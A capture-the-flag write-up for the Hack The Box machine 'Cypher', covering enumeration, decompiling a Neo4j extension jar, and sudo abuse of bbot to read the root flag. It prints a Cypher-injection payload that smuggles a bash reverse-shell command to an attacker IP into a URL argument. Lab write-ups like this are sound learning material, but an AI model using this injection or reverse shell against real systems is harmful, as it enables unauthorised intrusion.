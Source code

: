 ## Machine Information

|                      |             |
| -------------------- | ----------- |
| **Name**             | CYPHER      |
| **Operating System** | Linux       |
| **Difficulty**       | Medium      |
| **IP Address**       | 10.10.11.57 |

## Ports & Services Scanning

Command used: `sudo nmap 10.10.11.57 -sC -sV -v -oN enum.nmap`

![](../__assets/__htb/cypher/nmap.png)
Open ports: 22, 80
_Cannot use port 22 unless credentials are known_

## Port 80 Web Enumeration

_Add cypher.htb in /etc/hosts_

![](../__assets/__htb/cypher/website.png)

### Vulnerablity Scanning using _Nuclei_

Used command `nuclei -u http://cypher.htb -headless`, no usefull result.

### Directory Fuzzing using _ffuf_

Command used: `ffuf -w ~/Downloads/raft-small-words.txt -u 'http://cypher.htb/FUZZ' -c`

![](../__assets/__htb/cypher/ffuf.png)

These is a new directory `testing`, tried accessing it, got a `jar` file, downloaded it.

![](../__assets/__htb/cypher/jar.png)

> Note:
> JAR stands for **Java ARchive**. It's a file format based on the popular ZIP file format and is used for aggregating many files into one.

### Extracting the jar file

Command used: `unzip custom-apoc-extension-1.0-SNAPSHOT.jar -d custom_apoc_ext`

![](../__assets/__htb/cypher/unzipjar.png)

> Neo4j is a native graph database

The `.class` files contains **Java Bytecode** after compiling `.java` files. These are non-human readable files. So, I need to decompile it to `.java` again to read the content of the file.

After searching the internet, I got a tool named `jd-gui` that can decompile `.class` files.

**Download** the tool from **[here](http://java-decompiler.github.io/)**.  
**Install** it in the linux machine (debian) using the command:`sudo dpkg -i ~/Downloads/jd-gui-1.6.6.deb`

Open the tool and navigate to the downloaded `.jar` directory.

![](../__assets/__htb/cypher/jd.png)

The `CustomFunctions` class `getUrlStatusCode(url)` function executes O.S command, so it can be vulnerable to **Command Injection**
Also, the application is using `Neo4j` database for its authentication in `/api/auth` route. So, I can also be vulnerable to **Injection Attack** through which **Command Injection** can be achieved.
I never heard about graph database existence and the name _Neo4j_ so after going through the **docs** it got little knowledge but not enough to try injections.

## Neo4j Injection + Command Injection

I queried _chatGPT_ using its search option to find me basic injection commands for Neo4j. Run the injecton to cause error, if any. The error revealed the query used.

![](../__assets/__htb/cypher/error.png)
![](../__assets/__htb/cypher/error1.png)

Finally, `admin' return h.value as a union CALL custom.getUrlStatusCode(\"http://google.com; bash -c 'bash -i >& /dev/tcp/10.10.16.98/9999 0>&1'\") YIELD statusCode AS a RETURN a;//` worked and I got the reverse shell.

![](../__assets/__htb/cypher/revsh.png)

User `neo4j` cannot reat the user flag, so need to escalate the privilage.

![](../__assets/__htb/cypher/flag.png)

## Privilege Escalation

Downloaded the `linpeas.sh` script from my machine for **information gathering**

![](../__assets/__htb/cypher/privesc.png)
![](../__assets/__htb/cypher/privesc1.png)

Did not got much useful information. So, locking back, I found my mistake. As, I could not read `user.txt`, I moved from that directory and did not checked other files, if they are readable.

There are readable files in that user, and got a credential. Tried to `ssh` into that user using the crdential and it **worked**.

![](../__assets/__htb/cypher/privesc2.png)

> User Flag retrived.

## Escalate to root user to get the root flag

The user can execute `bbot`executable as root without password.

![](../__assets/__htb/cypher/privesc3.png)

Tried various ways to find flaws in the script, used linpeas.sh to find for more information, nothing worked.
Again, looked back, I overlooked and did not try executing the executable.

There is `-t` flag that is used to specify target, which can be a file as well.

![](../__assets/__htb/cypher/exec1.png)

I know the location of `root.txt`, so passed it to it. It did read the file but this is not the flag.

![](../__assets/__htb/cypher/exec3.png)

There is a `-o` flag to write the output into a file, leveraging it.
![](../__assets/__htb/cypher/exec2.png)
![](../__assets/__htb/cypher/root.png)

> Root Flag retrived
